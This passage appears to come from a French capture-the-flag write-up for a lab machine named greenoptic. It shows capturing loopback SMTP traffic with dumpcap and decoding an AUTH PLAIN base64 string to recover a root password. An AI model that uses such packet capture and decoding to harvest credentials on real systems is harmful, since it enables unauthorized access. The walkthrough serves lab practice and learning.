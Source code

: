 ```console
[alex@websrv01 ~]$ ss -t -n state time-wait
Recv-Q Send-Q                                             Local Address:Port                                                            Peer Address:Port              
0      0                                                          [::1]:25                                                                    [::1]:57644              
0      0                                                          [::1]:25                                                                    [::1]:57648
```

Maintenant, je sais quelle interface et quel port surveiller :

```console
[alex@websrv01 ~]$ /usr/sbin/dumpcap -i lo -f "tcp port 25" -w locapt.pcap
Capturing on 'Loopback'
File: locapt.pcap
Packets captured: 15
Packets received/dropped on interface 'Loopback': 15/0 (pcap:0/dumpcap:0/flushed:0) (100.0%)
```

Je trouve bien une authentification sur le SMTP :

```
220 websrv01.greenoptic.vm ESMTP Postfix

EHLO websrv01.greenoptic.vm

250-websrv01.greenoptic.vm
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-AUTH PLAIN LOGIN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN

AUTH PLAIN AHJvb3QAQVNmb2pvajJlb3p4Y3p6bWVkbG1lZEFTQVNES29qM28=

535 5.7.8 Error: authentication failed: generic failure

QUIT

221 2.0.0 Bye
```

Le protocole envoie le nom d'utilisateur et le mot de passe avec un octet nul entre les deux, le tout encodé en base64 :

```console
$ echo AHJvb3QAQVNmb2pvajJlb3p4Y3p6bWVkbG1lZEFTQVNES29qM28= | base64 -d | hexdump -C
00000000  00 72 6f 6f 74 00 41 53  66 6f 6a 6f 6a 32 65 6f  |.root.ASfojoj2eo|
00000010  7a 78 63 7a 7a 6d 65 64  6c 6d 65 64 41 53 41 53  |zxczzmedlmedASAS|
00000020  44 4b 6f 6a 33 6f                                 |DKoj3o|
```
